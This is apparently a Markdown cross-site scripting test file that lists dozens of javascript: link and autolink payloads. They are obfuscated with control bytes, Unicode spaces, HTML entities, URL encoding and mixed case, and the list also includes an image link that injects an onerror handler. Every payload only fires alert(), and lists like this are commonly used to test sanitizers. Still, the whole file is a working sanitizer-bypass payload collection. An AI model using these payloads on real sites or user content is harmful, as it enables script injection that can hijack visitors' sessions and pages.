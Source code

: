 [Click me](javascript:alert('XSS'))

[Click me](java%0Ascript:alert("XSS"))

<javascript:alert("XSS")>

![Inline image](data:image/gif;base64,R0lGODlhEAAQAMQAAORHHOVSKudfOulrSOp3WOyDZu6QdvCchPGolfO0o/XBs/fNwfjZ0frl3/zy7////wAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAkAABAALAAAAAAQABAAAAVVICSOZGlCQAosJ6mu7fiyZeKqNKToQGDsM8hBADgUXoGAiqhSvp5QAnQKGIgUhwFUYLCVDFCrKUE1lBavAViFIDlTImbKC5Gm2hB0SlBCBMQiB0UjIQA7)

![Inline image](xx" onerror="javascript:alert(1))

<javas\x00cript:javascript:alert(1)>

<javas\x01cript:javascript:alert(1)>

<javas\x02cript:javascript:alert(1)>

<javas\x03cript:javascript:alert(1)>

<javas\x04cript:javascript:alert(1)>

<javas\x05cript:javascript:alert(1)>

<javas\x06cript:javascript:alert(1)>

<javas\x07cript:javascript:alert(1)>

<javas\x08cript:javascript:alert(1)>

javas\x09cript:javascript:alert(1)>

<javas\x0Acript:javascript:alert(1)>

<javas\x0Bcript:javascript:alert(1)>

<javas\x0Ccript:javascript:alert(1)>

<javas\x0Dcript:javascript:alert(1)>

<javascript\x3Ajavascript:alert(1)>

<\x0Bjavascript:javascript:alert(1)>

<\x0Fjavascript:javascript:alert(1)>

<\xC2\xA0javascript:javascript:alert(1)>

<\x05javascript:javascript:alert(1)>

<\xE1\xA0\x8Ejavascript:javascript:alert(1)>

<\x18javascript:javascript:alert(1)>

<\x11javascript:javascript:alert(1)>

<\xE2\x80\x88javascript:javascript:alert(1)>

<\xE2\x80\x89javascript:javascript:alert(1)>

<\xE2\x80\x80javascript:javascript:alert(1)>

<\x17javascript:javascript:alert(1)>

<\x03javascript:javascript:alert(1)>

<\x0Ejavascript:javascript:alert(1)>

<\x1Ajavascript:javascript:alert(1)>

<\x00javascript:javascript:alert(1)>

<\x10javascript:javascript:alert(1)>

<\xE2\x80\x82javascript:javascript:alert(1)>

<\x20javascript:javascript:alert(1)>

<\x13javascript:javascript:alert(1)>

<\x09javascript:javascript:alert(1)>

<\xE2\x80\x8Ajavascript:javascript:alert(1)>

<\x14javascript:javascript:alert(1)>

<\x19javascript:javascript:alert(1)>

<\xE2\x80\xAFjavascript:javascript:alert(1)>

<\x1Fjavascript:javascript:alert(1)>

<\xE2\x80\x81javascript:javascript:alert(1)>

<\x1Djavascript:javascript:alert(1)>

<\xE2\x80\x87javascript:javascript:alert(1)>

<\x07javascript:javascript:alert(1)>

<\xE1\x9A\x80javascript:javascript:alert(1)>

<\xE2\x80\x83javascript:javascript:alert(1)>

<\x04javascript:javascript:alert(1)>

<\x01javascript:javascript:alert(1)>

<\x08javascript:javascript:alert(1)>

<\xE2\x80\x84javascript:javascript:alert(1)>

<\xE2\x80\x86javascript:javascript:alert(1)>

<\xE3\x80\x80javascript:javascript:alert(1)>

<\x12javascript:javascript:alert(1)>

<\x0Djavascript:javascript:alert(1)>

<\x0Ajavascript:javascript:alert(1)>

<\x0Cjavascript:javascript:alert(1)>

<\x15javascript:javascript:alert(1)>

<\xE2\x80\xA8javascript:javascript:alert(1)>

<\x16javascript:javascript:alert(1)>

<\x02javascript:javascript:alert(1)>

<\x1Bjavascript:javascript:alert(1)>

<\x06javascript:javascript:alert(1)>

<\xE2\x80\xA9javascript:javascript:alert(1)>

<\xE2\x80\x85javascript:javascript:alert(1)>

<\x1Ejavascript:javascript:alert(1)>

<\xE2\x81\x9Fjavascript:javascript:alert(1)>

<\x1Cjavascript:javascript:alert(1)>

<javascript\x00:javascript:alert(1)>

<javascript\x3A:javascript:alert(1)>

<javascript\x09:javascript:alert(1)>

<javascript\x0D:javascript:alert(1)>

<javascript\x0A:javascript:alert(1)>

<java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>

<jav&#65ascript:javascript:alert(1)>

<jav&#97ascript:javascript:alert(1)>

<jAvAsCrIpT:alert(1)>

[XSS](javascript:alert%28&#039;XSS&#039;%29)

[XSS](javascript&colon;alert%28&#039;XSS&#039;%29)

[XSS](javascript&amp;colon;alert%28&#039;XSS&#039;%29)
